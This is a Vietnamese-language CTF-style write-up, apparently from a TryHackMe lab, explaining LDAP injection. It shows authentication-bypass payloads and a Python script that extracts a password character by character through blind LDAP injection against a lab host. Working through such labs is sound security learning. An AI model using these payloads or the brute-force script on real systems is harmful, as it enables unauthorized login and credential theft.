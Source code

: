 ## LDAP Injection 
- LDAP Injection (Lightweight Directory Access Protocol Injection) là một lỗ hổng bảo mật xảy ra khi một ứng dụng web không kiểm soát chặt chẽ dữ liệu đầu vào của người dùng trước khi đưa vào truy vấn LDAP. Điều này cho phép kẻ tấn công thao túng truy vấn LDAP để truy xuất, sửa đổi hoặc xóa dữ liệu trong thư mục LDAP.
- Cấu trúc của LDAP:

![alt text](image.png)


## Payload

- LDAP thường được sử dụng để quản lý thông tin người dùng, chẳng hạn như hệ thống xác thực (authentication) và phân quyền (authorization). Truy vấn LDAP có thể giống như sau:
    ```bash
    (&(uid=admin)(password=123456))
    ```

    - & đảm bảo rằng cả hai điều kiện đều phải đúng.
    - uid=admin là kiểm tra tên người dùng.
    - password=123456 là kiểm tra mật khẩu
- Giả sử một ứng dụng web có mã như sau để xác thực người dùng:
    ```bash
    String filter = "(&(uid=" + username + ")(password=" + password + "))";
    ```
    - Nếu người dùng nhập:
    ```bash
    Username: *)(&)
    Password: ...
    ```
    - Truy vấn LDAP trở thành:
    ```bash
    (& (uid=*) (&) (password=anything))
    ```
    → `uid=*` nghĩa là lấy tất cả người dùng.
    → `(&)` là một điều kiện hợp lệ.

- Điều này có thể dẫn đến việc ứng dụng cấp quyền truy cập trái phép vì điều kiện luôn đúng.

## Exploit

- Bypass LDAP injection 
    ```text
    Normal 
    1. username=*passwd=*
    2. username=F*passwd=*
    Blind
    3. username=*)(|(&passwd=pwd)
    ```

- Exploit code bypass LDAP
    ```python
    import requests
    from bs4 import BeautifulSoup
    import string
    import time

    # Base URL
    url = 'http://10.10.167.23/blind.php'

    # Define the character set
    char_set = string.ascii_lowercase + string.ascii_uppercase + string.digits + "._!@#$%^&*()"

    # Initialize variables
    successful_response_found = True
    successful_chars = ''

    headers = {
        'Content-Type': 'application/x-www-form-urlencoded'
    }

    while successful_response_found:
        successful_response_found = False

        for char in char_set:
            #print(f"Trying password character: {char}")

            # Adjust data to target the password field
            data = {'username': f'{successful_chars}{char}*)(|(&','password': 'pwd)'}

            # Send POST request with headers
            response = requests.post(url, data=data, headers=headers)

            # Parse HTML content
            soup = BeautifulSoup(response.content, 'html.parser')

            # Adjust success criteria as needed
            paragraphs = soup.find_all('p', style='color: green;')

            if paragraphs:
                successful_response_found = True
                successful_chars += char
                print(f"Successful character found: {char}")
                break

            if not successful_response_found:
                print("No successful character found in this iteration.")

            print(f"Final successful payload: {successful_chars}")
    ```
- Payload thành công
![alt text](image-1.png)
- Login và lấy flag
![alt text](image-2.png)

## Tham khảo thêm tại
- [Tryhackme](https://tryhackme.com/room/ldapinjection)
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/LDAP%20Injection/README.md)